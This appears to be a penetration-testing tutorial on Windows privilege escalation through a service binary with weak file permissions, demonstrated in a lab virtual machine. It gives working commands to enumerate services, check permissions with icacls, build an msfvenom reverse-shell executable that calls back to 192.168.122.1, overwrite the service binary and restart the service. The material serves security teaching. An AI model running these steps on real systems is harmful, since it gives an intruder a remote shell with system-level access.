 Other than changing the configuration of the service, the original binary itself could be configured with `weak permissions`. In these situations a malicious actor can modify the binary by overwriting it with a malicious binary.

First, we get the binary paths of the various processes
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

 We can use the `icals` utility to check the configuration on the specific binary
```powershell
icacls.exe .\simpleService.ex
```

Output
```powershell
PS C:\Users\Quickemu\Downloads> icacls.exe .\simpleService.ex
.\simpleService.exe NT AUTHORITY\SYSTEM:(F)
					BUILTIN\Administrators:(F)
					QUICKEM-5QLQQP9\Quickemu:(F)

Successfully processed 1 files; Failed processing 0 files
```

 Notice that the user `Quickemu` has full access over the service binary `simpleService.exe`. This means we can overwrite it with an arbitrary binary.

To exploit, the following steps can work:

1. Generate the malicious binary and transfer it to the victim machine.
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=7777 -f exe -o malicious.exe
```

2. Overwrite the service binary

Make a backup
```powershell
cp .\simpleService.exe .\simpleService.exe.bkp
```

Overwrite the service binary 
```powershell
cp .\malicious.exe .\simpleService.exe
```

3. Restart the service
```powershell
sc.exe stop SimpleService
```

```powershell
sc.exe start SimpleService
```

